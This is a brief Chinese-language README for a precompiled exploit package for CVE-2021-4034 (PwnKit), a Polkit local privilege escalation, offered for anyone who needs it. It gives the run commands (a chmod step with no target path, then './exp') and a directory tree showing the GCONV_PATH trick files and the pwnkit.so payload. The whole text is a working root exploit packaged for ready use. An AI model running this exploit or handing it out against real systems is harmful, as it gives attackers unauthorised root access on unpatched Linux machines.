 # Polkit-
Polkit提权包 CVE-2021-4034 （供需要的人方便使用

源项目（需编译）：https://github.com/berdav/CVE-2021-4034

此为已编译后项目，全部导入

```python
chmod -R 777 2>/dev/null
```

```python
./exp
```

eg. dir tree：
```
CVE-2021-4034
├─ GCONV_PATH=.%
│    └─ pwnkit.so:.
├─ exp
├─ gconv-modules
├─ pwnkit.c
└─ pwnkit.so
```
